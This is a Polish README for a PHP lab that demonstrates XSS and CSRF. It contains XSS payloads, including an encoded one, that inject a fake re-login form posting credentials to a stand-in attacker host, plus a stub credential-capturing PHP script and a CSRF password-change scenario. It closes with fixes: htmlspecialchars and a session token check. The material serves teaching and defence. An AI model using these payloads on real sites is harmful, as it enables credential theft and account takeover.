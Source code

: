 # Konfiguracja

* Wrzucić wszystkie pliki na serwer obsługujacy PHP.
* Uruchomić w przeglądarce stronę `index.php`

* W pole wyszukiwania `szukaj.php` wklejać poniższe przykłady kodu aby wyświetlić alert lub wstrzyknąć formularz przypominający logowanie, a w rzeczywistości wysyłający dane do hackera.

* Jeśli użytkownik `jankowalski` o haśle `qwerty` jest zalogowany i ktoś wyśle mu link `filmik.html` z ukrytym formularzem zmieniającym hasło to tym samym `jankowalski` straci dostęp 
do swojego konta po wylogowaniu ponieważ zostanie ustawione hasło `haker` dla jego konta.


# XSS

### XSS - sprawdzanie podatności inputa

	"><script>alert('hacked');</script>



### XSS - kod wyświetlający fikcyjny formularz proszący o logowanie

	"><script>
	document.getElementById('container').innerHTML='<h1>Logowanie</h1>												 												
	Uwaga. Zostałeś wylogowany. Ze względów bezpieczeństwa jesteś proszony o ponowne zalogowanie.
	<form action="http://www.strona-hackera.pl/formularz_przechwytujacy_haslo.php" method="post">
	Login: <input type="text" name="login"><br />
	Hasło: <input type="password" name="password"><br />
	<input type="submit" name="submit" value="zaloguj" />
	</form>
	';
	</script>




### Kod dołączający bibliotekę jQuery z serwera Google


	<script type='text/javascript' src='http://ajax.googleapis.com/ajax/libs/jquery/1.4.2/jquery.min.js'></script>



### Kod dołączający bibliotekę jQuery z localhost 


	<script type='text/javascript' src='jquery.min.js'></script>



### XSS - kod wyświetlający fikcyjny formularz proszący o logowanie
Kod jest wywoływany dopiero po załadowaniu całego dokumentu DOM (Document Object Model).

	">
	<script type='text/javascript' src='jquery.min.js'></script>
	<script>
	$(function() {
	document.getElementById('container').innerHTML='<h1>Logowanie</h1>												 												
	Uwaga. Zostałeś wylogowany. Ze względów bezpieczeństwa jesteś proszony o ponowne zalogowanie.
	<form action="http://www.strona-hackera.pl/formularz_przechwytujacy_haslo.php" method="post">
	Login: <input type="text" name="login"><br />
	Hasło: <input type="password" name="password"><br />
	<input type="submit" name="submit" value="zaloguj" />
	</form>
	';
	})											
	</script>


Treść pliku `formularz_przechwytujacy_haslo.php` który znajduje się na serwerze hackera.
	
	<?

	// odczyt przechwyconych danych
	$_POST['login'];
	$_POST['password'];
	
	// wysłanie danych do hackera
	// mail() lub zapis do pliku
	// ...

	?>




### po parsowaniu 


	%22%3e%20%3c%73%63%72%69%70%74%20%74%79%70%65%3d%27%74%65%78%74%2f%6a%61%76%61%73%63%72%69%70%74%27%20%73%72%63%3d%27%6a%71%75%65%72%79%2e%6d%69%6e%2e%6a%73%27%3e%3c%2f%73%63%72%69%70%74%3e%20%3c%73%63%72%69%70%74%3e%20%24%28%66%75%6e%63%74%69%6f%6e%28%29%20%7b%20%64%6f%63%75%6d%65%6e%74%2e%67%65%74%45%6c%65%6d%65%6e%74%42%79%49%64%28%27%63%6f%6e%74%61%69%6e%65%72%27%29%2e%69%6e%6e%65%72%48%54%4d%4c%3d%27%3c%68%31%3e%4c%6f%67%6f%77%61%6e%69%65%3c%2f%68%31%3e%20%55%77%61%67%61%2e%20%5a%6f%73%74%61%c5%82%65%c5%9b%20%77%79%6c%6f%67%6f%77%61%6e%79%2e%20%5a%65%20%77%7a%67%6c%c4%99%64%c3%b3%77%20%62%65%7a%70%69%65%63%7a%65%c5%84%73%74%77%61%20%6a%65%73%74%65%c5%9b%20%70%72%6f%73%7a%6f%6e%79%20%6f%20%70%6f%6e%6f%77%6e%65%20%7a%61%6c%6f%67%6f%77%61%6e%69%65%2e%20%3c%66%6f%72%6d%20%61%63%74%69%6f%6e%3d%22%68%74%74%70%3a%2f%2f%77%77%77%2e%73%74%72%6f%6e%61%2d%68%61%63%6b%65%72%61%2e%70%6c%2f%66%6f%72%6d%75%6c%61%72%7a%5f%70%72%7a%65%63%68%77%79%74%75%6a%61%63%79%5f%68%61%73%6c%6f%2e%70%68%70%22%20%6d%65%74%68%6f%64%3d%22%70%6f%73%74%22%3e%20%4c%6f%67%69%6e%3a%20%3c%69%6e%70%75%74%20%74%79%70%65%3d%22%74%65%78%74%22%20%6e%61%6d%65%3d%22%6c%6f%67%69%6e%22%3e%3c%62%72%20%2f%3e%20%48%61%73%c5%82%6f%3a%20%3c%69%6e%70%75%74%20%74%79%70%65%3d%22%70%61%73%73%77%6f%72%64%22%20%6e%61%6d%65%3d%22%70%61%73%73%77%6f%72%64%22%3e%3c%62%72%20%2f%3e%20%3c%69%6e%70%75%74%20%74%79%70%65%3d%22%73%75%62%6d%69%74%22%20%6e%61%6d%65%3d%22%73%75%62%6d%69%74%22%20%76%61%6c%75%65%3d%22%7a%61%6c%6f%67%75%6a%22%20%2f%3e%20%3c%2f%66%6f%72%6d%3e%20%27%3b%20%7d%29%20%3c%2f%73%63%72%69%70%74%3e


### Ten sam kod co wyżej tylko z linkiem do biblioteki jquery umieszczonej na serwerze Google


	">
	<script type='text/javascript' src='http://ajax.googleapis.com/ajax/libs/jquery/1.4.2/jquery.min.js'></script>
	<script>
	$(function() {
	document.getElementById('container').innerHTML='<h1>Logowanie</h1>												 												
	Uwaga. Zostałeś wylogowany. Ze względów bezpieczeństwa jesteś proszony o ponowne zalogowanie.
	<form action="http://www.strona-hackera.pl/formularz_przechwytujacy_haslo.php" method="post">
	Login: <input type="text" name="login"><br />
	Hasło: <input type="password" name="password"><br />
	<input type="submit" name="submit" value="zaloguj" />
	</form>
	';
	})											
	</script>


* TIP: Aby zabezpieczyć pole wyszukiwania należy na `$_GET['fraza']` wywołać funkcję htmlspecialchars





# CSRF

Użytkownik `jankowalski` klucz dla hasła: `qwerty` to `e98f3f7e74ae2a0093ece6ab335ee78ce98c9fa2`.


### Sposób zabezpieczenia formularza zmiany hasła:
Należy dodać sprawdzanie tokenu sesji.

Linia ~247 w pliku `login.php` powinna wyglądać tak:

	if($password_1 == $password_2 AND $_COOKIE['session_key'] == $_POST['session_key'])

Do formularza w linii ~278 należy dodać ukryty input:

	<input type="hidden" name="session_key" value="'.$_COOKIE['session_key'].'" />
